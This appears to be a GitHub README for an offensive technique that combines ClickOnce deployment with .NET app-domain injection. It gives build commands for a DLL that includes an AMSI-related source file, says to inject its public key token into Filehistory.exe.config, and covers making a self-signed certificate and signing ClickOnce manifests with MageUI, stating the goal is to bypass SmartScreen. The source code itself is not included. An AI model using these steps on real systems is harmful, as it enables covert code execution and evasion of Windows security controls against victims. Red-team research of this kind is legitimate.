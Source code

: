 # ClickOnce + App-Domain Injection 
ClickOnce + App Domain Injection

Based on https://github.com/Mr-Un1k0d3r/.NetConfigLoader

csc.exe /t:library /keyfile:key.snk /out:uevmonitor.dll uevmonitor.cs amsi.cs

[System.Reflection.AssemblyName]::GetAssemblyName("uevmonitor.dll").FullName            

uevmonitor, Version=0.0.0.0, Culture=neutral, PublicKeyToken=1bb626af4620f3e6

Add PublicKeyToken to Filehistory.exe.config

makecert -r -pe -n "CN=test" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv cert.pvk CA.cer

pvk2pfx -pvk cert.pvk -spc CA.cer -pfx CA.pfx -po "test"

MageUI.exe

Create application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/38a9d058-2d7e-4dca-a0cd-92979b5f346b)

Sign and save the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/83b0ddac-ff62-496f-a9a8-6b71163636d7)

Create deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/9d76f5ca-4765-4e08-b9f3-2863b7b36035)

Add the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/75430ed5-4618-43c9-98a2-a5dce1308d9f)

Sign and save the deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/faeaf363-9553-4104-ad9e-0378fb9bf9c7)

Launch the ClickOnce application to bypass Smart Screen:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/3b903b58-2314-4e0f-9c3f-5a1a5d9aaee9)












